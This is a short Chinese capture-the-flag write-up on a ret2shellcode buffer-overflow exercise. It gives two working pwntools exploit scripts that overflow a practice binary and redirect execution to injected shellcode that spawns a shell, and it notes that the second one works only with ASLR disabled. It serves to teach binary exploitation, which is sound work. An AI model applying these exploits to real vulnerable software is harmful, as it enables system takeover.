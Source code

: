 # ret2shellcode

检查程序的保护

![image-20240425143605429](图片/image-20240425143605429.png)

反汇编

![image-20240425143628496](图片/image-20240425143628496.png)

没有随机基质，没有栈保护，随意发挥即可

```python
from pwn import *
import time

sh = process('./ret2shellcode')

#gdb.attach(sh)
#sleep(15)

shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()

```

总结：

一开始我一直没明白什么时候把shellcode拷进0x804a080中的，再观察反汇编才发现gets下面有一个拷贝函数

在构造exp的时候，不能只盯着溢出点，还要观察上下文



思考：假设没有strncpy，如何构造exp？

答：若没有拷贝函数，则溢出点应该是栈中，我们则需要知道栈的地址，利用jmp esp pop esp等来构造rop，exp如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())

#gdb.attach(sh)
#sleep(15)

add = 0xffffd500

payload = flat([b'a'*112,add,shellcode])
sh.sendline(payload)

sh.interactive()
```



总结：由于没有jmp esp ，pop esp等指令，观察汇编上下文也没有合适的指令操作，目前只能是关闭ASLR(栈随机)来完成这一利用。